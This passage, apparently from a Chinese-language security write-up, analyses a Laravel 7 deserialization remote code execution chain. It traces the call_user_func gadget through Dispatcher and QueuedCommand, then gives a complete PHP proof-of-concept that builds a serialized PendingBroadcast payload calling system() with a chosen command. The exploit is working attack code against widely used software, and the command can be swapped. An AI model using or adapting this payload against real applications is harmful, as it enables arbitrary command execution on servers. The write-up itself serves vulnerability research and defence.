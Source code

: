 
发现 call_user_func , 想办法利用, `$this-&gt;queueResolver` 和 `$connection` 都可控, 返回 dispatch 跟进一下 commandShouldBeQueued

```
protected function commandShouldBeQueued($command)
    `{`
        return $command instanceof ShouldQueue;
    `}`
```

需要`$command`是一个实现了ShouldQueue接口的对象，全局搜索一下，还挺多的，随便找一个用就可以了，这里用的是`QueuedCommand`类。这样就if判断成功，进入`dispatchToQueue()` , 然后就可以利用了, POP链就形成了

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc5
# @author: Ricky
*/

namespace Illuminate\Broadcasting`{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events, $event) `{`
            $this-&gt;events=$events;
            $this-&gt;event=$event;
        `}`
    `}`
`}`

namespace Illuminate\Foundation\Console `{`
    class QueuedCommand `{`
        public $connection;
        public function __construct($connection) `{`
            $this-&gt;connection = $connection;
        `}`
    `}`
`}`

namespace Illuminate\Bus `{`
    class Dispatcher `{`
        protected $queueResolver;
        public function __construct($queueResolver) `{`
            $this-&gt;queueResolver = $queueResolver;
        `}`
    `}`
`}`

namespace `{`
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Foundation\Console\QueuedCommand('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
`}`
```
